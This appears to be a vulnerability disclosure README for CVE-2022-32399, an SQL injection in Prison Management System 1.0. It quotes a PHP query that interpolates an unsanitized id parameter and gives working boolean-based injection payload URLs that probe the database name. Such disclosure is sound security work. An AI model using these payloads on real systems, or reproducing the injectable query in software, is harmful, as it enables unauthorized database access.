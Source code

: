 # CVE-2022-32399
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/crimes/view_crime.php:4`
```php
$qry = $conn->query("SELECT * from `crime_list` where id = '{$_GET['id']}' and delete_flag = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/crimes/view_crime.php?id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/crimes/view_crime.php?id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32399_true.png)
- False : 
`http://localhost/pms/admin/crimes/view_crime.php?id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32399_false.png)